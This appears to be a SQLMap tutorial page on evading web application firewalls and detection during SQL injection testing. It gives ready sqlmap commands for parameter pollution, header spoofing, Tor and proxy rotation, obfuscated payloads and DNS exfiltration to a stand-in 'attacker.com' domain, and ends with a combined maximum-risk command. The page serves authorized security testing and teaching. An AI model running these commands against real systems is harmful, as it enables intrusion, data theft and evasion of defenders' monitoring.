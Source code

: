```yaml
---
title: Other Evasion Methods
description: Learn about additional evasion techniques in SQLMap to bypass security controls
---
```


Beyond tamper scripts and WAF detection, SQLMap offers several additional methods to evade detection during security testing. These techniques can help bypass various security controls when used appropriately in authorized testing scenarios.

## HTTP Parameter Manipulation

### Parameter Pollution

Using multiple instances of the same parameter:

```bash
sqlmap -u "http://www.example.com/vuln.php" --data="id=1&id=2" --param-del="&"
```

This technique can confuse some security filters that don't properly handle parameter pollution.

### Parameter Reordering

Changing the order of HTTP parameters:

```bash
sqlmap -u "http://www.example.com/vuln.php" --data="b=2&a=1&c=3" --param-del="&"
```

Some WAFs may only inspect the first few parameters or expect parameters in a specific order.

## HTTP Header Manipulation

### Custom Headers

Adding custom HTTP headers:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --headers="X-Forwarded-For: 127.0.0.1\nX-Custom-Header: Value"
```

This can bypass security controls that trust certain headers or don't inspect custom headers.

### Host Header Manipulation

Modifying the Host header:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --host="internal-system.local"
```

This can bypass security controls that rely on the Host header for validation.

## Request Method Switching

### Method Switching

Changing the HTTP method:

```bash
sqlmap -u "http://www.example.com/vuln.php" --data="id=1" --method=PUT
```

Some security controls may only inspect GET and POST requests but not other HTTP methods.

### Method Obfuscation

Using non-standard HTTP methods:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --method=CUSTOM
```

This can sometimes bypass security controls that only check standard HTTP methods.

## Traffic Routing and Proxying

### Multiple Proxies

Routing through multiple proxies:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --proxy="http://proxy1:8080" --proxy-cred="user:pass" --proxy-file="proxies.txt"
```

The `--proxy-file` option allows you to specify a list of proxies to rotate through.

### Tor Network

Routing through the Tor network:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tor --tor-port=9050 --tor-type=SOCKS5 --check-tor
```

This routes all SQLMap traffic through the Tor network, making it harder to trace and potentially bypassing IP-based restrictions.

## Timing and Rate Controls

### Request Delays

Adding random delays between requests:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --delay=2 --time-sec=10
```

This adds a 2-second delay between requests and sets a 10-second time for time-based blind injections.

### Throttling

Limiting the number of concurrent threads:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --threads=1
```

This can help avoid triggering rate-limiting mechanisms.

## Payload Obfuscation

### Inline Comments

Using inline comments in SQL statements:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --prefix="'/*" --suffix="*/--" --technique=B
```

This adds specific SQL comments before and after the injection payload.

### Custom Prefix and Suffix

Adding custom strings before and after the payload:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --prefix=")" --suffix="AND(1=1"
```

This helps when the injection point is within a specific SQL context.

## Advanced Techniques

### Out-of-Band Exploitation

Using out-of-band channels for data exfiltration:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --dns-domain=attacker.com
```

This uses DNS requests for data exfiltration, which may bypass controls that only monitor HTTP traffic.

### Second-Order Injection

Testing for second-order SQL injection:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --second-url="http://www.example.com/page.php?id=1" --second-req="second-request.txt"
```

This tests for vulnerabilities where the injection is stored and then executed in a different location.


## Combining Evasion Techniques

For maximum effectiveness, combine multiple evasion techniques:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --random-agent --tamper=between,charencode,randomcase --delay=2 --tor --proxy="http://proxy:8080" --level=5 --risk=3
```

This comprehensive approach combines:
- Random user agent
- Multiple tamper scripts
- Request delays
- Tor routing
- Additional proxy
- Maximum test level and risk
